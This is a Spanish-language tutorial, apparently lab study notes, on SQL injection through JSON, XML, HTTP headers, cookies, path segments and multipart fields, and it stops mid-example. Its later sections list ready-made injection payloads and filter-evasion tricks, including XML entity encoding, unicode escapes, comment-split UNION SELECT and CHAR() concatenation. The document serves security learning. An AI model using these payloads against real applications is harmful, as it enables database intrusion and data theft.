 # SQL injection en diferentes contextos (JSON, XML, headers, APIs)

Las inyecciones SQL no se limitan al query string. Cualquier entrada controlable por el usuario que termine formando una consulta SQL puede ser vector de inyección: JSON, XML, cabeceras, cookies, segmentos de URL, multipart, GraphQL, etc. Diferentes formatos ofrecen formas alternativas de ocultar o evadir filtros, y a menudo requieren técnicas de explotación y evasión específicas.

[Obfuscating](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)
---

## 1) Idea clave

La vulnerabilidad aparece cuando la aplicación **construye o interpola** una consulta SQL usando datos controlados externamente sin usar **consultas parametrizadas** (prepared statements) o validación estricta. El formato del dato (JSON, XML, header) sólo cambia la forma en que el payload debe llegar y cómo la app lo decodifica antes de pasarlo al motor SQL.

---

## 2) Contextos comunes y ejemplos

### A — Query string / form data (clásico)

* GET: `/product?id=123` → `SELECT * FROM products WHERE id = '123'`.
* POST form: `product=123` similar.

### B — JSON (APIs REST)

* Petición JSON típica:

  ```json
  { "productId": 123, "filter": "recent" }
  ```
* Si el backend hace algo peligroso como: `query = "SELECT * FROM products WHERE id = '" + data.productId + "'";`, aceptará payloads JSON que incluyan comillas o estructuras.
* **Ejemplo de inyección JSON**: si `productId` no se valida: `{ "productId": "1' OR '1'='1" }` → `... WHERE id = '1' OR '1'='1'`.

### C — XML (SOAP, payloads de servicios)

* XML puede usar **escape sequences** o **entidades**:

  ```xml
  <stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  </stockCheck>
  ```

  El parser XML decodifica `&#x53;` a `S`, resultando en `SELECT` en el SQL final.
* También se puede abusar de **CDATA** y XXE para OOB exfiltration (cuando el XML es parseado y convertido a SQL después).

### D — Headers, Cookies y Path params

* `User-Agent`, `Referer`, `X-Forwarded-For`, o cookies pueden ser usados para inyección si son concatenados en SQL.
* Ejemplo: app registra `INSERT INTO access_log (ua) VALUES ('<User-Agent>')` → inyectá en `User-Agent`.
* Segmentos RESTful: `/user/123/orders` → si la app hace `WHERE user_id = '123'` usando el segmento, ese valor también puede explotar.

### E — Multipart / file metadata

* Formularios multipart incluyen campos de texto que pueden inyectarse. Metadatos de filenames también.

### F — GraphQL / BSON / NoSQL (mención)

* GraphQL pasa objetos; si se interpolan campos en consultas SQL internas, también son vectores.
* NoSQL injection (MongoDB) no usa SQL pero permite inyección cuando el input es interpretado como operador (`{ "$gt": "" }`).

---

## 3) Por qué los formatos ayudan a evadir filtros (WAF, regex simples)

* Muchos filtros buscan palabras clave comunes (`SELECT`, `UNION`, `DROP`) en la entrada cruda. Si el formato (ej. JSON/XML) **decodifica** entidades o escape sequences antes de ejecutar SQL, un payload codificado puede pasar el filtro y luego ser interpretado por el servidor.
* Ejemplos de evasión:

  * **Escapes HTML / XML**: `&#x53;ELECT` → `SELECT` tras parseo XML.
  * **URL encoding / percent encoding** en parámetros.
  * **Unicode homoglyphs / UTF-8 overlong** (poco fiable y detectable).
  * **Insertar comentarios** dentro de palabras clave: `SE/**/LECT`.
  * **Separar la palabra clave**: `SE` + `LECT` (si la app concatena input de varias fuentes).
  * **Uso de concatenación del motor**: `CHAR(83)+'ELECT'` (en SQL Server) o `CHR(83)||'ELECT'` (Oracle) para producir `SELECT` internamente.

---

## 4) Ejemplos prácticos de bypass (payloads)

> Ajustá comillas y encoding según el contexto (JSON string, XML text, header). Usá sólo en labs.

* **JSON (body)**

  ```json
  { "id": "1' OR '1'='1" }
  ```

* **JSON con encoding** (si parser decodes):

  ```json
  { "q": "1\u0027 OR \u00271\u0027=\u00271" }
  ```

  (`\u0027` = `'`) puede evadir filtros que no normalizan unicode.

* **XML escape example**

  ```xml
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  ```

  (XML decode → `SELECT`)

* **Split keyword with comments**

  ```sql
  ' UN/**/ION SEL/**/ECT NULL,NULL--
  ```

* **Hex / CHAR functions** (MSSQL)

  ```sql
  ' UNION SELECT CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84) --
  ```

* **Concatenate pieces from different JSON fields**
  Si un backend hace `q = body.a + body.b`, envía `{"a":"SE
